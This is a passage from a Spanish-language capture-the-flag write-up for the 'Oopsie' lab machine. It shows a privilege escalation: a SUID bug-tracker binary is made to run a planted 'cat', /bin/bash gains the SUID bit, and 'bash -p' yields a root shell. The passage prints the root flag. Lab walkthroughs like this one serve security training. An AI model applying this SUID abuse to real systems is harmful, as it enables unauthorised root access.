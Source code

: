 Y procedemos a ejecutar el `/usr/bin/bugtrack` para que ejecute nuestro `cat malicioso`
```bash
robert@oopsie:/tmp$ /usr/bin/bugtracker
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------
```
Comprobamos que la /bin/bash tenga privilegios como SUID para ahora haciendo un `bash -p`convertirnos en `root` y sacar la flag de administrator.

```bash
robert@oopsie:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash

robert@oopsie:/tmp$ bash -p
bash-4.4# whoami
root
´´´
Sacando la Flag Root.txt
```bash
bash-4.4# nano /root/root.txt
f13b0bee69f8a877c3faf667
```
Maquina Rooteada !!
